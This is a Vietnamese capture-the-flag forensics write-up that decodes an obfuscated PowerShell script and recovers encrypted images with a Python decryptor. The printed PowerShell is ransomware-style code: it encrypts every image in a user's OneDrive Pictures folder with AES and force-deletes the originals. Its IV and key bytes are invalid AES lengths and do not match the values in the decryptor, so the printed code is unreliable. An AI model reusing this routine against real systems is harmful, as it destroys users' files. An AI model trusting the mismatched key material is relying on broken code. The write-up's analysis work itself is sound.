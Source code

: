 # _Powershell 101_ _(FORENSICS)_

![image](https://github.com/user-attachments/assets/79a16db8-500e-4172-b64c-2800d0111b0e)

## _Solution_

Tải về mình nhận được một tệp **pwsh101.zip**, giải nén ra thì có file **s.ps1** và 1 folder **Pictures** ( gồm tất cả các ảnh đã bị encrypt )

![image](https://github.com/user-attachments/assets/15b806ec-f56e-42fa-9406-5dbb36fea310)
![image](https://github.com/user-attachments/assets/2cb04a7d-9b6f-4464-aeb9-8b6b0d0f2cd9)

Mở file s.ps1 ra thì thấy có 1 đoạn base64

![image](https://github.com/user-attachments/assets/28592ee4-9b2d-43e9-99d6-991f4e554c7f)

Đem lên cyberchef decrypt thì nhận được 1 đoạn script PowerShell đã bị obfuscation

![image](https://github.com/user-attachments/assets/2ce95f93-57cf-4271-ae63-15897971abb3)

Đem đi làm đẹp lại cho dễ đọc hơn

```
# Define variables and types
Set-Variable -Name "gxqh" -Value ([Type]"System.Security.Cryptography.CipherMode")
$CipherPadding = [Type]"System.Security.Cryptography.PaddingMode"
$TextEncoding = [Type]"System.Text.Encoding"
Set-Variable -Name "lc3Zj8" -Value ([Type]"System.IO.Compression.CompressionMode")
Set-Variable -Name "arZ3" -Value ([Type]"System.Convert")
Set-Variable -Name "ulZ2" -Value ([Type]"System.IO.Path")
Set-Variable -Name "0Upe6" -Value ([Type]"System.Security.Principal.WindowsPrincipal")

# Encryption function
function Encrypt {
    param($InputFile, $OutputFile)

    # Create AES instance
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Mode = $gxqh::CBC
    $aes.Padding = $CipherPadding::Zeros
    $aes.BlockSize = 128
    $aes.KeySize = 256

    # Set IV and Key
    $aes.IV = [byte[]](0x3F, 0x45, 0x2B, 0x4D, 0x62, 0x51, 0x65, 0x53, 0x68, 0x56, 0x6D, 0x59, 0x71)
    $aes.Key = [byte[]](0x61, 0x42, 0x4A, 0x40, 0x4E, 0x63, 0x52, 0x66, 0x55, 0x6A, 0x58, 0x21, 0x41, 0x25)

    # Create encryptor and read plaintext
    $encryptor = $aes.CreateEncryptor()
    $plainBytes = Get-Content -Path $InputFile -Encoding Byte

    # Encrypt plaintext
    $encryptedText = $encryptor.TransformFinalBlock($plainBytes, 0, $plainBytes.Length)
    $aes.Dispose()

    # Convert encrypted text to Base64
    $base64String = $arZ3::ToBase64String($encryptedText)
    $base64Bytes = $TextEncoding::UTF8.GetBytes($base64String)

    # Compress Base64 string
    $memoryStream = New-Object System.IO.MemoryStream
    $deflateStream = New-Object System.IO.Compression.DeflateStream($memoryStream, $lc3Zj8::Compress, $true)
    $deflateStream.Write($base64Bytes, 0, $base64Bytes.Length)
    $deflateStream.Flush()
    $deflateStream.Close()

    # Convert compressed data to Base64 and write to output
    $compressedData = $arZ3::ToBase64String($memoryStream.ToArray())
    Write-Output $compressedData | Out-File -FilePath $OutputFile
}

# Find image files in a specific directory
$CurrentUser = $0Upe6::GetCurrent().Name.Substring(16)
$ImagesDirectory = "C:\Users\$CurrentUser\OneDrive\Pictures"
$ImageFiles = Get-ChildItem -Path $ImagesDirectory -Recurse |
    Where-Object { $_.Extension -in '.jpg', '.png', '.jpeg', '.bmp' } |
    Select-Object -ExpandProperty FullName

# Process each image file
foreach ($file in $ImageFiles) {
    $ParentDirectory = (Get-Item $file).Directory.FullName
    $FileNameWithoutExtension = $ulZ2::GetFileNameWithoutExtension($file)
    $OutputFile = Join-Path -Path $ParentDirectory -ChildPath "$FileNameWithoutExtension.enc"

    # Encrypt the file
    Encrypt -InputFile $file -OutputFile $OutputFile

    # Remove original file
    Remove-Item -Force $file
}
```
Một đoạn script tương đối dài, nhưng mục tiêu chung là 

```
1. Mã hóa tập tin ảnh:

- Script tìm kiếm tất cả các tập tin hình ảnh (với các phần mở rộng như .jpg, .png, .jpeg, .bmp) trong thư mục OneDrive\Pictures của người dùng hiện tại.

- Mỗi tập tin hình ảnh được mã hóa bằng AES (Advanced Encryption Standard) trong chế độ CBC (Cipher Block Chaining) với padding Zeros và kích thước khóa 256-bit.

- Sau khi mã hóa, nội dung được nén bằng DeflateStream, sau đó chuyển thành chuỗi Base64 và lưu vào một tập tin mới với phần mở rộng .enc.

2. Xóa tập tin gốc:

- Sau khi mã hóa và lưu trữ, tập tin gốc sẽ bị xóa khỏi hệ thống.

```

Nhiệm vụ của mình giờ là **decrypt** -> **lấy lại tệp ảnh gốc** -> **flag** (**Decrypt** sẽ là làm ngược lại các thao tác khi **Encrypt**)

Và đây là số lượng file đã bị **encrypt**

![image](https://github.com/user-attachments/assets/8ac50783-b30c-4894-81c5-d19f4667ef90)


Mình có viết 1 script Python để thực hiện điều này

```
import base64
import io
import zlib
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

def decrypt(input_file, output_file):

    # IV và Key từ PowerShell script
    iv = bytes([0x3f, 0x45, 0x28, 0x48, 0x2b, 0x4d, 0x62, 0x51, 0x65, 0x53, 0x68, 0x56, 0x6d, 0x59, 0x71, 0x33])
    key = bytes([0x43, 0x26, 0x46, 0x29, 0x4a, 0x40, 0x4e, 0x63, 0x52, 0x66, 0x55, 0x6a, 0x58, 0x6e, 0x32, 0x72, 0x34,
                 0x75, 0x37, 0x78, 0x21, 0x41, 0x25, 0x44, 0x2a, 0x47, 0x2d, 0x4b, 0x61, 0x50, 0x64, 0x53])

    # Đọc mã base64 nén từ tệp bị encrypt ở dạng nhị phân
    try:
      with open(input_file, 'rb') as f:
          compressed_data_b64 = f.read()
    except Exception as e:
      print(f"Error reading file: {e}")
      return
    
    # Giải mã dữ liệu base64 đã nén
    try:
        compressed_data = base64.b64decode(compressed_data_b64)
    except Exception as e:
        print(f"Error during initial base64 decoding: {e}")
        return

    # Giải nén data bằng zlib
    try:
        decompressed_data = zlib.decompress(compressed_data, wbits=-zlib.MAX_WBITS)
    except Exception as e:
        print(f"Error during decompression: {e}")
        return
    
    # Giải mã chuỗi base64
    try:
        base64_string = decompressed_data.decode('utf-8')
        encrypted_bytes = base64.b64decode(base64_string)
    except Exception as e:
        print(f"Error during secondary base64 decoding: {e}")
        return


    # Khởi tạo mật mã AES
    cipher = AES.new(key, AES.MODE_CBC, iv)

    # Giải mã và xóa padding(\x00)
    try:
        decrypted_bytes = cipher.decrypt(encrypted_bytes)
        # Remove padding 
        decrypted_bytes = decrypted_bytes.rstrip(b'\x00') 
    except ValueError as e:
        print(f"Error during decryption (possible padding error): {e}")
        return

    # Lưu data decrypt vào file mới
    with open(output_file, 'wb') as outfile:
        outfile.write(decrypted_bytes)

if __name__ == '__main__':
    # Example usage:
    encrypted_file = "E:\\Python\\gundam.enc"  # File đầu vào bị mã hóa
    decrypted_file = "1.txt" # File gốc

    decrypt(encrypted_file, decrypted_file)
    print(f"Decrypted data written to: {decrypted_file}")
```
Đoạn scrypt trên sẽ thực hiện

```
1. Giải mã Base64.

2. Giải nén dữ liệu (dùng zlib).

3. Giải mã AES.

4. Ghi kết quả vào tệp tin đích.
```
Mình sẽ thực hiện lần lượt với từng file bằng cách thêm file .enc vào hàm này

```
encrypted_file = "E:\\Python\\Important.enc" 
```
Và đã có kết quả ở file **Important.enc**

![3](https://github.com/user-attachments/assets/43586728-f106-40dc-9300-fe38f3079069)

```
Flag: KCSC{S0m3t1m3_R3co\_/ery_1s_EasieR_Th@n_y0u_Thought}
```
